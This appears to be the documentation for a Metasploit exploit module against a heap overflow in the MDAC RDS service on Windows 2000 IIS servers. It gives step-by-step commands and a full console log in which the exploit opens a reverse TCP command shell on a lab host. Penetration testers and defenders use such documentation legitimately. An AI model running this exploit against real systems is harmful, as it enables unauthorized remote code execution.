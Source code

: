## Vulnerable Application

This module can be used to execute arbitrary code on IIS servers
that expose the /msadc/msadcs.dll Microsoft Data Access Components
(MDAC) Remote Data Service (RDS) DataFactory service. The service is
exploitable even when RDS is configured to deny remote connections
(handsafe.reg). The service is vulnerable to a heap overflow where
the RDS DataStub 'Content-Type' string is overly long. Microsoft Data
Access Components (MDAC) 2.1 through 2.6 are known to be vulnerable.

This module has been tested successfully on:

* Windows 2000 Pro SP0-SP3 (English)
* Windows 2000 Pro SP0 (Korean)
* Windows 2000 Pro SP0 (Dutch)
* Windows 2000 Pro SP0 (Finnish)
* Windows 2000 Pro SP0 (Turkish)
* Windows 2000 Pro SP0-SP1 (Greek)
* Windows 2000 Pro SP1 (Arabic)
* Windows 2000 Pro SP1 (Czech)
* Windows 2000 Pro SP2 (French)
* Windows 2000 Pro SP2 (Portuguese)

## Verification Steps

1. `use exploit/windows/iis/ms02_065_msadc`
1. `set RHOSTS [IP]`
1. `show targets` to see the possible targets
1. `set TARGET [TARGET]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options

### TARGETURI

The path to `msadcs.dll` (Default: `/msadc/msadcs.dll`)

## Scenarios

### Windows 2000 Professional SP3 (EN)

```
msf > use exploit/windows/iis/ms02_065_msadc
[*] Using configured payload windows/shell/reverse_tcp
msf exploit(windows/iis/ms02_065_msadc) > set rhosts 192.168.200.186
rhosts => 192.168.200.186
msf exploit(windows/iis/ms02_065_msadc) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows 2000 Pro SP0-SP3 (English)
   1   Windows 2000 Pro SP0 (Korean)
   2   Windows 2000 Pro SP0 (Dutch)
   3   Windows 2000 Pro SP0 (Finnish)
   4   Windows 2000 Pro SP0 (Turkish)
   5   Windows 2000 Pro SP0-SP1 (Greek)
   6   Windows 2000 Pro SP1 (Arabic)
   7   Windows 2000 Pro SP1 (Czech)
   8   Windows 2000 Pro SP2 (French)
   9   Windows 2000 Pro SP2 (Portuguese)


msf exploit(windows/iis/ms02_065_msadc) > set target 0
target => 0
msf exploit(windows/iis/ms02_065_msadc) > set lhost 192.168.200.130
lhost => 192.168.200.130
msf exploit(windows/iis/ms02_065_msadc) > check
[*] 192.168.200.186:80 - The service is running, but could not be validated. /msadc/msadcs.dll content type matches fingerprint application/x-varg
msf exploit(windows/iis/ms02_065_msadc) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.186
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.186:1028) at 2022-07-07 10:13:35 -0400


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----


C:\WINNT\system32>ver
ver

Microsoft Windows 2000 [Version 5.00.2195]
```
